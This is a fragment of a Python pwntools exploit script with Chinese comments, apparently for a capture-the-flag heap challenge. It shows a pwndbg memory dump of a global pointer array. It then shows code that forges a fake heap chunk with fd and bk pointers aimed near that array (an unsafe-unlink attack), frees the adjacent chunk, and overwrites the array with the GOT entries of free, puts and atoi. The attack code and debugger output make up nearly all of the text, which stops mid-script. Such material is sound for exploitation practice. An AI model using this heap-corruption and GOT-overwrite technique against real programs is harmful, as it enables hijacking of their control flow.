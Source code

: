 ```python
#这个地址应该在指针数组附近。


'''
pwndbg> x/80x 0x602100
0x602100:   0x00000003  0x00000000  0x00000000  0x00000000
0x602110:   0x00000000  0x00000000  0x00000000  0x00000000
0x602120:   0x00000000  0x00000000  0x00000000  0x00000000
0x602130:   0x00000000  0x00000000  0x00000000  0x00000000
0x602140:   0x00000000  0x00000000  0x01ec9020  0x00000000
0x602150:   0x01ec9460  0x00000000  0x01ec94c0  0x00000000
0x602160:   0x00000000  0x00000000  0x00000000  0x00000000
0x602170:   0x00000000  0x00000000  0x00000000  0x00000000
0x602180:   0x00000000  0x00000000  0x00000000  0x00000000
'''

'''
0x602100存储的是chunk的个数，0x602140，不对，是从0x602148开始，是chunk的地址。
程序malloc chunk是从下标1，开始的，但是0我们却仍旧可以访问到
所以我们可以劫持到一个地方，这个地方就是0x602140+0x18。

'''

#计算target

#为了绕过检查
#gdb.attach(c)
ptrArray = 0x602140
target=0x602140+16


cheat_code=p64(0x0)
cheat_code+=p64(0x31)

fd=target-0x18
cheat_code+=p64(fd)
bk=target-0x10
cheat_code+=p64(bk)

cheat_code+=p64(0x0)*2

#下一个chunk的pre_size
cheat_code+=p64(0x30)
#下一个chunk的size
cheat_code+=p64(0x90)

edit(2,cheat_code)


free(3)
#c.recvuntil('OK\n')
c.recvuntil('OK\n')

#获取plt
payload=b'a'*8                 #chunk -1
payload+=p64(elf.got['free'])   #chunk 0
payload+=p64(elf.got['puts']) #chunk 1
payload+=p64(elf.got['atoi'])   #chunk 2

#修改指针数组的0,1,2,3的chunk的指针
edit(2,payload)

'''
```